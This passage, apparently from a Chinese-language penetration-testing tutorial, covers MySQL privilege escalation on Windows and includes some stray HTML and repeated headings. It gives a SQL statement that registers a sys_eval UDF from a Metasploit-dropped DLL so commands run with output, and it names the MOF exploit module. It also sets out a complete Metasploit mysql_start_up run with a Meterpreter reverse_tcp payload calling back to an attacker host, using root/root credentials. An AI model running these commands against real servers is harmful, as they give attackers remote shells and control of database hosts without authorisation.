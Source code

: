 MSF会将一个随机命名的UDF文件写入lib/plugin目录下（该目录不存在，则无法成功),该UDF文件中包含sys_exec()和sys_eval()这两个函数，但是默认只创建sys_exec()函数，该函数执行不会有回显。
可以手动引入 sys_eval() 函数，来执行有回显的命令
create function sys_eval returns string soname 'guuHCUiK.dll';
</code></pre>
<hr/>
<h4>Mof提权</h4>
<pre>`exploit/windows/mysql/mysql_mof`</pre>
<hr/>
<h4>MySQL启动项提权</h4>
<pre><code>use exploit/windows/mysql/mysql_start_up
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.x.x
set lport 4444
set rhosts x.x.x.x
set username root
set password root
set startup_folder xxx     # 根据目标系统进行设置自启目录
run</code></pre>


#### Mof提权

---


> 
<h3>1.4、第四步：MySQL 0day 漏洞</h3>
网上查询了去利用

